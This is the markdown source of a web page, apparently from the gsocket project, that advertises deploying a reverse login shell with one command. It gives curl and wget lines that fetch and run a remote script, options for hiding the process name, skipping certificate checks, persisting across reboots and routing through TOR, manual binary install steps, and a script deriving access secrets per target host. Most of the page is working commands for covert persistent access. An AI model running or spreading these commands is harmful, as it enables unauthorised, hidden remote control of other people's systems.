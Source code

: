 ```yaml
---
layout: default
---
```


<p class="panel-note2" markdown="1">Deploy a reverse login shell with a *single command* (fully automated) - and access the shell remotely - encrypted - and via TOR if you like.</p>

> _This must be the quickest way to access a system_ -- anonymous

Use either one of these two commands to _install_, _uninstall_, and _access_:

<div class="tabs-wrapper">
    <div class="tabs">
        <div class="tab">
            <input type="radio" name="css-tabs-init" id="curl-init" class="tab-switch" checked>
            <label for="curl-init" class="tab-label">Curl</label>
            <div class="tab-content">
                <ul>
                    <li><p><strong>Install</strong></p>
{% highlight shell %}
bash -c "$(curl -fsSL gsocket.io/x)"
{% endhighlight %}
                    </li>
                    <li><p><strong>Uninstall</strong></p>
{% highlight shell %}
GS_UNDO=1 bash -c "$(curl -fsSL gsocket.io/x)"
{% endhighlight %}
                    </li>
                    <li><p><strong>Access</strong></p>
{% highlight shell %}
S="ExampleSecretChangeMe" bash -c "$(curl -fsSL gsocket.io/x)"
{% endhighlight %}
                    </li>
                </ul>
            </div>
        </div>
        <div class="tab">
            <input type="radio" name="css-tabs-init" id="wget-init" class="tab-switch">
            <label for="wget-init" class="tab-label">Wget</label>
            <div class="tab-content">
                <ul>
                    <li><p><strong>Install</strong></p>
{% highlight shell %}
bash -c "$(wget --no-verbose -O- gsocket.io/x)"
{% endhighlight %}
                    </li>
                </ul>
                <ul>
                    <li><p><strong>Uninstall</strong></p>
{% highlight shell %}
GS_UNDO=1 bash -c "$(wget --no-verbose -O- gsocket.io/x)"
{% endhighlight %}
                    </li>
                </ul>
                <ul>
                    <li><p><strong>Access</strong></p>
{% highlight shell %}
S="ExampleSecretChangeMe" bash -c "$(wget --no-verbose -O- gsocket.io/x)"
{% endhighlight %}
                    </li>
                </ul>
            </div>
        </div>
    </div>
</div>

<p class="panel-note2" markdown="1">Windows user need to manually install <A HREF="https://github.com/hackerschoice/binary/raw/main/gsocket/bin/gs-netcat_x86_64-cygwin_full.zip">the binary</A>. Contact us if you like to write a powershell deploy script.</p>

{:refdef: style="text-align: center;"}
## Screenshots
{: refdef}
Deploy on a host
{:refdef: style="text-align: center;"}
![Deploy-Example](../assets/images/deploy-example.png)
{: refdef}
Log in to the host from your workstation
{:refdef: style="text-align: center;"}
![Deploy-Login](../assets/images/deploy-login.png)
{: refdef}

{:refdef: style="text-align: center;"}
## Tips & Tricks
{: refdef}

<div class="tabs-wrapper">
    <div class="tabs" style="height: 25.45rem;">
        <div class="tab">
            <input type="radio" name="css-tabs-tricks" id="curl-tricks" class="tab-switch" checked>
            <label for="curl-tricks" class="tab-label">Curl</label>
            <div class="tab-content" style="height: 23.5rem;">
                <ul>
                    <li><p><strong>Ignore SSL / Certificate warnings</strong></p>
{% highlight shell %}
bash -c "$(curl -fsSLk gsocket.io/x)"
{% endhighlight %}
                    </li>
                    <li><p><strong>Deploy with a predefined secret</strong></p>
{% highlight shell %}
X=ExampleSecretChangeMe bash -c "$(curl -fsSL gsocket.io/x)"
{% endhighlight %}
                    </li>
                    <li><p><strong>Deploy from self-extracting shell-script <a href="https://github.com/hackerschoice/binary/raw/main/gsocket/bin/deploy-all.sh" target="_blank">deploy-all.sh</a> without fetching any packages and using good old plain HTTP</strong></p>
{% highlight shell %}
curl -fsSL http://nossl.segfault.net/deploy-all.sh && \
bash deploy-all.sh
{% endhighlight %}
                    </li>
                </ul>
            </div>
        </div>
        <div class="tab">
            <input type="radio" name="css-tabs-tricks" id="wget-tricks" class="tab-switch">
            <label for="wget-tricks" class="tab-label">Wget</label>
            <div class="tab-content" style="height: 23.5rem;">
                <ul>
                    <li><p><strong>Ignore SSL / Certificate warnings</strong></p>
{% highlight shell %}
bash -c "$(wget --no-check-certificate -qO- gsocket.io/x)"
{% endhighlight %}
                    </li>
                    <li><p><strong>Deploy with a predefined secret</strong></p>
{% highlight shell %}
X=ExampleSecretChangeMe bash -c "$(wget --no-verbose -O- gsocket.io/x)"
{% endhighlight %}
                    </li>
                    <li><p><strong>Deploy from self-extracting shell-script <a href="https://github.com/hackerschoice/binary/raw/main/gsocket/bin/deploy-all.sh" target="_blank">deploy-all.sh</a> without fetching any packages and using good old plain HTTP</strong></p>
{% highlight shell %}
wget --no-hsts http://nossl.segfault.net/deploy-all.sh && \
bash deploy-all.sh
{% endhighlight %}
                    </li>
                </ul>
            </div>
        </div>
    </div>
</div>

Useful environment variables:  

|:---|:---|
|S=|Connect to a system (or use `gs-netcat -s <secret> -il`).|
|X=|Set a predefined secret for the installation (X like in inXstallation).|
|GS_NOINST=1|Only start but without installing (will not survive a reboot).|
|GSOCKET_ARGS=|Use additonal arguments. Most often used to force TOR in combination with S=, e.g. `GSOCKET_ARGS="-T" S=<secret> bash -c "$(curl -fsSLk gsocket.io/x)`.|
|GS_DSTDIR=|Set the installation directory. The default is to pick the most suitable automatically. Use `find . -type d -writable`. |
|GS_URL_BASE=|Use URL for static binaries. The default is https://github.com/hackerschoice/binary/raw/main/gsocket/bin/.|
|GS_OSARCH=|Force architecture. The default is to pick the most suitable automatically.
|GS_DEBUG=1|Verbose output and other debug related settings. Often used together with `GS_DEBUG=1 GS_NOSTART=1 GS_NOINST=1 bash -c "$(curl -fsSL gsocket.io/x)"`.|
|GS_HIDDEN_NAME=|Use a custom hidden process name.|
|TMPDIR=|Use a custom temporary directory. Try TMPDIR=$(pwd)|

If all fails:

Download the static binary from [https://github.com/hackerschoice/binary/tree/main/gsocket/bin](https://github.com/hackerschoice/binary/tree/main/gsocket/bin) (likely [gs-netcat_x86_64-alpine.tar.gz](https://github.com/hackerschoice/binary/raw/main/gsocket/bin/gs-netcat_x86_64-alpine.tar.gz)) and extract and start gs-netcat manually:

<div class="tabs-wrapper">
    <div class="tabs" style="height: 12.45rem;">
        <div class="tab">
            <input type="radio" name="css-tabs-manual" id="curl-manual" class="tab-switch" checked>
            <label for="curl-manual" class="tab-label">Curl</label>
            <div class="tab-content" style="height: 10.5rem; padding-left: 1.2em;">
{% highlight shell %}
curl -fsSL https://github.com/hackerschoice/binary/raw/main/gsocket/bin/gs-netcat_x86_64-alpine.tar.gz | tar xz -C /bin gs-netcat
SECRET=$(/bin/gs-netcat -g)
GSOCKET_ARGS="-liD -s $SECRET" /bin/gs-netcat
echo "Connect with: gs-netcat -s $SECRET -i" 
{% endhighlight %}
            </div>
        </div>
        <div class="tab">
            <input type="radio" name="css-tabs-manual" id="wget-manual" class="tab-switch">
            <label for="wget-manual" class="tab-label">Wget</label>
            <div class="tab-content" style="height: 10.5rem; padding-left: 1.2em;">
{% highlight shell %}
wget --no-check-certificate -qO- https://github.com/hackerschoice/binary/raw/main/gsocket/bin/gs-netcat_x86_64-alpine.tar.gz | tar xz -C /bin gs-netcat
SECRET=$(/bin/gs-netcat -g)
GSOCKET_ARGS="-liD -s $SECRET" /bin/gs-netcat
echo "Connect with: gs-netcat -s $SECRET -i" 
{% endhighlight %}
            </div>
        </div>
    </div>
</div>

{:refdef: style="text-align: center;"}
## Advanced Tips & Tricks
{: refdef}

Remembering many secrets from many deployments is cumbersome. It is easier to remember just one MASTER-SEED and derive the SECRET from the target's hostname. The following script generates a secure SECRET based on a single MASTER-SEED and the target's hostname.

<div class="tabs-wrapper">
    <div class="tabs" style="height: 35.45rem;">
        <div class="tab">
            <input type="radio" name="css-tabs-advanced" id="curl-advanced" class="tab-switch" checked>
            <label for="curl-advanced" class="tab-label">Curl</label>
            <div class="tab-content" style="height: 33.5rem; padding-left: 1.2em;">
{% highlight sh %}
# cut & paste this into your shell on your workstation or add to ~/.bashrc
gssec()
{
    str="$(echo "${GS_SEED:?}$1" | sha512sum | base64 | tr -d -c a-z0-9)"
    str="${str:0:22}"
    echo "DEPLOY: X=${str}"' bash -c "$(curl -fsSL gsocket.io/x)"'
    echo "ACCESS: S=${str}"' bash -c "$(curl -fsSL gsocket.io/x)"'
    echo "ACCESS: gs-netcat -s ${str} -i"
}

# Pick a STRONG master seed:
[[ -z $GS_SEED ]] && GS_SEED=MySuperStrongMasterSeed
{% endhighlight %}
{% highlight sh %}
# Generate a SECRET based on the SEED and 'alice.com'
$ gssec alice.com # You only need to know "alice.com" to connect.

# Output from above's command:
DEPLOY: X=2m1zidi1zkkmxjjj0z0jlj bash -c "$(curl -fsSL gsocket.io/x)"
ACCESS: S=2m1zidi1zkkmxjjj0z0jlj bash -c "$(curl -fsSL gsocket.io/x)"
ACCESS: gs-netcat -s 2m1zidi1zkkmxjjj0z0jlj -i
{% endhighlight %}
            </div>
        </div>
        <div class="tab">
            <input type="radio" name="css-tabs-advanced" id="wget-advanced" class="tab-switch">
            <label for="wget-advanced" class="tab-label">Wget</label>
            <div class="tab-content" style="height: 33.5rem; padding-left: 1.2em;">
{% highlight sh %}
# cut & paste this into your shell on your workstation or add to ~/.bashrc
gssec()
{
    str="$(echo "${GS_SEED:?}$1" | sha512sum | base64 | tr -d -c a-z0-9)"
    str="${str:0:22}"
    echo "DEPLOY: X=${str}"' bash -c "$(wget --no-check-certificate -qO- gsocket.io/x)"'
    echo "ACCESS: S=${str}"' bash -c "$(wget --no-check-certificate -qO- gsocket.io/x)"'
    echo "ACCESS: gs-netcat -s ${str} -i"
}

# Pick a STRONG master seed:
[[ -z $GS_SEED ]] && GS_SEED=MySuperStrongMasterSeed
{% endhighlight %}
{% highlight sh %}
# Generate a SECRET based on the SEED and 'alice.com'
$ gssec alice.com # You only need to know "alice.com" to connect.

# Output from above's command:
DEPLOY: X=2m1zidi1zkkmxjjj0z0jlj bash -c "$(wget --no-check-certificate -qO- gsocket.io/x)"
ACCESS: S=2m1zidi1zkkmxjjj0z0jlj bash -c "$(wget --no-check-certificate -qO- gsocket.io/x)"
ACCESS: gs-netcat -s 2m1zidi1zkkmxjjj0z0jlj -i
{% endhighlight %}
            </div>
        </div>
    </div>
</div>

Execute a single command (e.g. `id`) on a remote system:
```sh
echo 'id; exit; __START' | gs-netcat -s ExampleSecretChangeMe 2>/dev/null | sed -n '/__START/,$p' | tail +2
```

<p class="panel-note" markdown="1">Get Involved. We are looking for volunteers to work on the website and a logo and to discuss new ideas. [Join us on telegram](https://t.me/thcorg).</p>

<!-- Adding some 'magic' over tabs ;) -->
<script>
(() => {
    const tabsSelector = 'input.tab-switch';
    const tabsDebug = false;
    document.querySelectorAll(tabsSelector).forEach((el) => {
        const id = el.id;
        const type = id.split('-')[0];
        if (tabsDebug === true) {
            console.log('[change] event listener attached on', id, '- type:', type);
        }
        el.addEventListener('change', (event) => {
            if (tabsDebug === true) {
                console.log('Change event triggered.', event);
            }
            let targetTabs = String(event.target.id).includes(type) ? type : 'undefined';
            if (tabsDebug === true) {
                console.log(`Should select other [${targetTabs}] tabs.`);
            }
            document.querySelectorAll(tabsSelector).forEach((target) => {
                if (String(target.id).includes(targetTabs) && !target.checked) {
                    target.checked = true;
                }
            });
        });
    });
})();
</script>
